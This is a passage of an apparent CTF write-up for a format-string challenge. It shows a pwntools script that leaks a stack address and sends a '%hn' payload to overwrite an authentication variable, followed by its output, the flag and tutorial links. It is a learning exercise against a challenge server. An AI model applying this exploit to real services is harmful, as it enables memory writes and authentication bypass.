 ```py
#! /usr/bin/python3

from pwn import *

HOST = 'pwn.challs.ctf.shellmates.club'
PORT = '1404'

p = remote(HOST, PORT)
address = p.recv().split()[5]
print(str(address)[2:-1])
addressBytesInStack = p32(int(str(address)[2:-1], 16))

p.sendline(b'AA' + addressBytesInStack + b'%65531x%7$hn')

p.interactive()
```

```
[+] Opening connection to pwn.challs.ctf.shellmates.club on port 1404: Done
0xff921dfc
[*] Switching to interactive mode
Hi, AA\xfc\x92\xff
                    32
[authenticated] = 1
shellmates{Fmt_str1nG_CAN_WRItE_tO0}
[*] Got EOF while reading in interactive
```

## Flag

shellmates{Fmt_str1nG_CAN_WRItE_tO0}

## More Information

 - How to Write Specific Values to Memory with Format String Exploitation  : https://null-byte.wonderhowto.com/how-to/exploit-development-write-specific-values-memory-with-format-string-exploitation-0182112/
 - How to write value into an address in format string attack : https://stackoverflow.com/questions/4855162/how-to-write-value-into-an-address-in-format-string-attack
 - Exploit 101 - Format Strings  : https://axcheron.github.io/exploit-101-format-strings/
